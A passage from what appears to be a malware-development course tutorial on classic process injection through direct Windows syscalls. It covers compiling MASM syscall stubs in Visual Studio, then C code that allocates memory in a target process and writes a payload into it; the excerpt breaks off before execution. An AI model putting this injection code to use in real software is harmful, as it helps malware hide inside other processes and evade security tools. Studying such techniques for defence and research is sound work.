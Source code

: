 #### Step 1

Copy the generated files to the project folder and then add them to the Visual Studio project as existing items.

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/syscalls-classic-114349632-de44115a-3e9f-450f-bb37-f0bff7776d5f.png)

#### Step 2

Enable MASM in the project to allow for the compilation of the generated assembly code.

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/syscalls-classic-214351708-4ba6253b-4713-4fed-8711-e8cb0766938e.png)

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/syscalls-classic-314352187-6786f4d7-1ae2-4e6b-94ce-8f8087d223df.png)

#### Step 3

Modify the properties to set the ASM file to be compiled using _Microsoft Macro Assembler_.

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/syscalls-classic-414353258-3fbf4ead-ce9c-4083-805a-ae5ced08213e.png)

![image](https://maldevacademy.s3.amazonaws.com/images/Intermediate/syscalls-classic-514353606-1e3d5862-fc03-4247-b03e-493b07f3a1ce.png)

#### Step 4

The Visual Studio project can now be compiled. The `ClassicInjectionViaSyscalls` function is shown below.

```c

BOOL ClassicInjectionViaSyscalls(IN HANDLE hProcess, IN PVOID pPayload, IN SIZE_T sPayloadSize) {


	NTSTATUS	STATUS                  = 0x00;
	PVOID		pAddress                = NULL;
	ULONG		uOldProtection          = NULL;

	SIZE_T		sSize                   = sPayloadSize,
			    sNumberOfBytesWritten   = NULL;
	HANDLE		hThread	                = NULL;



	// Allocating memory 
	if ((STATUS = NtAllocateVirtualMemory(hProcess, &pAddress, 0, &sSize, MEM_RESERVE | MEM_COMMIT, PAGE_READWRITE)) != 0) {
		printf("[!] NtAllocateVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		return FALSE;
	}
	printf("[+] Allocated Address At : 0x%p Of Size : %d \n", pAddress, sSize);
	printf("[#] Press <Enter> To Write The Payload ... ");
	getchar();

//--------------------------------------------------------------------------
	// Writing the payload
	printf("\t[i] Writing Payload Of Size %d ... ", sPayloadSize);
	if ((STATUS = NtWriteVirtualMemory(hProcess, pAddress, pPayload, sPayloadSize, &sNumberOfBytesWritten)) != 0 || sNumberOfBytesWritten != sPayloadSize) {
		printf("[!] pNtWriteVirtualMemory Failed With Error : 0x%0.8X \n", STATUS);
		printf("[i] Bytes Written : %d of %d \n", sNumberOfBytesWritten, sPayloadSize);
		return FALSE;
	}
	printf("[+] DONE \n");

//--------------------------------------------------------------------------
```